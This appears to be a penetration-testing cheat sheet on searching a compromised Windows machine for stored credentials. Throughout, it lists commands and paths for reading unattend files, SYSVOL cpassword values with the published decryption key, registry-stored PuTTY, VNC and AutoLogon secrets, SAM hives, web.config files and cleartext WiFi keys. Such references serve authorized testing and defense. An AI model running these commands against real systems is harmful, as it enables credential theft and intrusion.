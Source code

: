 # Simple Credential Searches
## Mass Install of Windows to Labs
Sometimes the mass-install process of many Microsoft Windows machines in the same environment can leave behind log files with sensitive information in them. We can check a few of these files if they exist on the file system onthe compromised target Windows machine,
```
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
```
## Groups.xml
If we have access to the SYSVOL/groups.xml file, we have access to any passwords encrypted in there. When a new GPP is created, there’s an associated XML file created in SYSVOL with the relevant configuration data and if there is a password provided, it is AES-256 bit encrypted. 

Since authenticated users (any domain user or users in a trusted domain) have read access to SYSVOL, anyone in the domain can search the SYSVOL share for XML files containing “cpassword” which is the value that contains the AES encrypted password.
```
C:> findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```
The AES decryption key, published by Microsoft themselves, is,
```
4e 99 06 e8  fc b6 6c c9  fa f4 93 10  62 0f fe e8	
f4 96 e8 06  cc 05 79 90  20 9b 09 a4  33 b6 6c 1b
```
There is a PowerSploit Power Shell script that we can use to automate the password reveal [located here.](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)
## More Possible Credential Files
#### XML INI CONFIG Credentials
```
C:> dir /s *pass* == *cred* == *vnc* == *.config*
C:> findstr /si password *.xml *.ini *.txt
```
## Registry Searches for Credentials
#### PuTTY
```
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
```
#### RealVNC
```
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
```
#### Windows AutoLogin
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
#### SNMP
```
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```
#### Last-Ditch-Effort Registry Search
```
C:> reg query HKLM /f password /t REG_SZ /s
C:> reg query HKCU /f password /t REG_SZ /s
```
## SAM 
We can check the following files for credentials
```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
## Unattended
Unattend XML Files may contain passwords also,
```
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
## IIS Admin Credentials
The following locations should be checked for plain-text adminstrator credentials for the IIS server.
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```
## WiFi Passwords
We might be able to reuse a WiFi password on a compromised system if we have view access to it.
```
C:> netsh wlan show profile
C:> netsh wlan show profile (SSID) key=clear
```
## Using PowerSploit
```
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-CachedGPPPassword
Get-RegistryAutoLogon
```

